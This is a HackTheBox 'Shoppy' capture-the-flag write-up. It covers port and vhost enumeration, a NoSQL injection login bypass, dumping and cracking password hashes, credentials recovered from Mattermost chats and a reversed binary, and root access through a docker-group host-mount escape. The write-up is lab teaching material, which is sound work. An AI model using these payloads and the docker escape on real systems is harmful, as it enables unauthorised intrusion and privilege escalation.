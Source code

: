 ```yaml
---
description: Shoppy box from HackTheBox write up.
---
```


# Shoppy

## Nmap

Like always let's start with Nmap!

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$ sudo nmap --min-rate 1000 -p- 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-30 13:20 CET
Nmap scan report for 10.10.11.180
Host is up (0.084s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9093/tcp open  copycat

Nmap done: 1 IP address (1 host up) scanned in 60.54 seconds
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$ sudo nmap -sC -sV -p 22,80,9093 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-30 13:23 CET
Nmap scan report for 10.10.11.180
Host is up (0.062s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Wed, 30 Nov 2022 12:22:26 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 546
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 546
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.4953e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.7211e-05
|_    go_gc

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.74 seconds
```

I will focus in both the port 80 and that weird thing in port 9093.

## Port 80

### First exploit

```bash
┌──(kali㉿kali)-[~/Documents/HTB]
└─$ gobuster dir -u http://shoppy.htb/ -w ~/Wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2022/11/30 13:32:39 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/Login                (Status: 200) [Size: 1074]
/js                   (Status: 301) [Size: 171] [--> /js/]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/Admin                (Status: 302) [Size: 28] [--> /login]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/LogIn                (Status: 200) [Size: 1074]
===============================================================
2022/11/30 13:45:08 Finished
===============================================================
```

The login page is weird, injecting a `'` character the page just hangs. Trying SQL payloads I just got timeouts, maybe we can inject something else? I crafted something like this:

```
Hola' + '123' + 'Hola
```

And the page was able to return... The port 9093 looks like a dump of something related to Go so lets try to inject Go code instead of SQL:

```
Hola' || 1==1 || 'Hola
```

Using that payload I was able to bypass the login page and get access to the admin dashboard! In there, there is an option to search for users. I tried to, once again, inject the same payload I used before in the login page hoping to get all the users of the database and looks like we are lucky here:

```json
[
	{
		"_id":"62db0e93d6d6a999a66ee67a",
		"username":"admin",
		"password":"23c6877d9e2b564ef8b32c3a23de27b2"
	},
	{
		"_id":"62db0e93d6d6a999a66ee67b",
		"username":"josh",
		"password":"6ebcea65320589ca4f2f1ce039975995"
	}
]
```

I was able to crack the password for the `josh` user using the Rockyou dictionary:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Shoppy]
└─$ john --format=raw-md5 --wordlist=~/Wordlists/rockyou.txt hash                                             
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
remembermethisway (josh)     
1g 0:00:00:01 DONE (2022-11-30 14:50) 0.6172g/s 8853Kp/s 8853Kc/s 9355KC/s  fuckyooh21..*7¡Vamos!
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

I tried the credentials `josh:remembermethisway` for SSH but no luck. 

### Finally user!


After some hours I was really lost whith this box but I found something using `wfuzz` instead of `gobuster` for enumerating virtual hosts:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Shoppy]
└─$ wfuzz -H "Host: FUZZ.shoppy.htb" --hc 404,403,301 -H "User-Agent: PENTEST" -c -w /home/kali/Wordlists/SecLists/Discovery/DNS/namelist.txt http://shoppy.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 151265

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================
                          
000082865:   200        0 L      141 W      3122 Ch     "mattermost"                                        
```

For some reason, `gobuster` was not able to find the Mattermost subdomain... Anyway, I was able to login using the found credentials and got the user and password for the SSH service in one of the chats: `jaeger:Sh0ppyBest@pp!`. Fun fact, the application is using a Mongo database and that is why the SQL payloads failed. Why I though about Go code instead of trying NoSQL? Well let's say that the port 9093 baited me...

## Privesc to `deploy`

Another thing I found in the Mattermost app was a chat speaking about a password manager. I was able to find it under `/home/deploy`, looks like the code and a file with credentials are also in there but Im only allowed to read the binary so I downloaded it to my machine.

According to `sudo -l` we can execute this binary as `deploy`:
```bash
jaeger@shoppy:/home/deploy$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

The binary asks for a master password when executed. According to the strings in the binary, it will read the credentials file from `/home/deploy` after introducing the correct password. The password is probably stored somewhere in the binary so time to reverse it. Using IDA was easy to find the password harcoded in the code, it was `Sample`.

<p align="center"><img alt="Screenshot of the IDA64 output" src="/assets/images/HackTheBox/Shoppy/idaOutput.PNG"></p>

Using this information, we can just get the password for the `deploy` user:


```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

## Pwned!

The privilege escalation for `root` is pretty easy, the user `deploy` is part of the `docker` group so we can manage containers. Since the Alpine image is already in the machine the attack vector is straigh forward.

```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
deploy@shoppy:~$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   4 months ago   5.53MB
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

We only need to create a container that will have all the host filesystem mounted in the `/mnt` directory and will execute the `chroot` command to change the container filesystem root to the `/mnt` directory. Since we are root inside de container, we are now effectively root in the host machine.

```bash
deploy@shoppy:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
```
